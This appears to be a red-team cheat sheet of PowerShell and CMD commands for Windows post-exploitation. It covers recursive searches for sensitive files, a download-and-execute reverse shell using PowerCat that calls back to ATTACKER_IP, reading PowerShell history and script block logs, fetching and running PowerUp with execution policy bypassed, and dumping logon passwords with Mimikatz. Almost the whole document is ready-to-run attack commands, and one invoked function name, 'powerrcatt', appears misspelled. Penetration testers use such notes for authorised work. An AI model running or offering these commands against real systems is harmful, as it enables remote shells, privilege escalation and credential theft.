 ```yaml
---
title: Windows Enumeration for Red Team
author: "novran"
date: 2024-11-27 00:00:00 +0700
categories: [Windows Pentest]
tags: [Windows Pentest]
mermaid: true
---
```


## Find Juicy Files

```powershell
# Unfiltered
Get-ChildItem -Path . -File -Recurse -ErrorAction SilentlyContinue | ForEach-Object { $_.FullName }

# Filterer Extension
Get-ChildItem -Path . -Include *.txt -File -Recurse -ErrorAction SilentlyContinue | ForEach-Object { $_.FullName }

# Filterer Multiple Extensions
Get-ChildItem -Path . -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.kdbx,*.ini,*.yaml,*.yml,*.xml,*.sql -File -Recurse -ErrorAction SilentlyContinue | ForEach-Object { $_.FullName }
```

## Reverse Shell

### Invoke-Expression with PowerCat

Download [Powercat v2.0](https://github.com/rexpository/powercat-v2.0).

```
# PowerShell
IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP>/powercat.ps1');powerrcatt -c <ATTACKER_IP> -p 5555 -e cmd

# CMD
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP>/powercat.ps1');powerrcatt -c <ATTACKER_IP> -p 5555 -e cmd"
```

## PowerShell History

```powershell
Get-History
(Get-PSReadlineOption).HistorySavePath
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Script Block Logging.
```powershell
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object { $_.Id -eq 4104 } | Format-List -Property * | Out-File "scriptblocklogs.txt"
```

## Privilege Escalation (Auto)

Download [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).

```
powershell -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP>/PowerUp.ps1'); Invoke-AllChecks"
```

## Credential Dump

Download [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest).

```
.\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"
```
